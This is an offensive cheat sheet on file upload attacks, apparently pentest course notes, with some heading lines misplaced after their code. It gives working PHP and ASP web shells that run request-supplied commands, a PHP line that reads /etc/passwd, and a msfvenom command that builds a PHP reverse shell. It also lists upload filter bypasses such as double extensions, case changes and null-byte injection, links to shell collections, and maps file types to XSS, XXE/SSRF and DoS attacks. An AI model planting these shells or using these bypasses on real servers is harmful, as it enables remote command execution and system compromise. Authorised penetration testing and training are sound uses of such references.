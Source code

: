 gi### Web Shells

```php
<?php file_get_contents('/etc/passwd'); ?>
### Basic PHP File Read

<?php system('hostname'); ?>
### Basic PHP Command Execution

<?php system($_REQUEST['cmd']); ?>
### Basic PHP Web Shell
```

```asp
<% eval request('cmd') %>
### Basic ASP Web Shell
```

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
### Generate PHP reverse shell
```

### Web/Reverse Shells

- **[PHP Web Shell](https://github.com/Arrexel/phpbash)**: Basic web shell for PHP
- [**PHP Reverse Shell**](https://github.com/pentestmonkey/php-reverse-shell): Reverse shell for PHP
- [**Web/Reverse Shells**](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells): List of common web and reverse shells

### Bypasses

```bash
[CTRL+SHIFT+C]
### Client-Side Bypass: Toggle Page Inspector
```

#### Blacklist Bypass

- `shell.phtml` ### Uncommon Extension
- `shell.pHp` ### Case Manipulation

#### Whitelist Bypass

- `shell.jpg.php` ### Double Extension
- `shell.php.jpg` ### Reverse Double Extension
- `%20, %0a, %00, %0d0a, /, .\, ., …` ### Character Injection - Before/After Extension

### Content/Type Bypass

- **[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)**: List of PHP extensions
- [ **ASP Extensions**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP): List of ASP extensions
- **[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)**: List of web extensions
- [**Web Content-Types**](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt): List of web content-types
- **[Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)**: List of all content-types
- [**File Signatures**](https://en.wikipedia.org/wiki/List_of_file_signatures): List of file signatures/magic bytes

### Limited Uploads

| Potential Attack | File Types              |
| ---------------- | ----------------------- |
| XSS              | HTML, JS, SVG, GIF      |
| XXE/SSRF         | XML, SVG, PDF, PPT, DOC |
| DoS              | ZIP, JPG, PNG           |
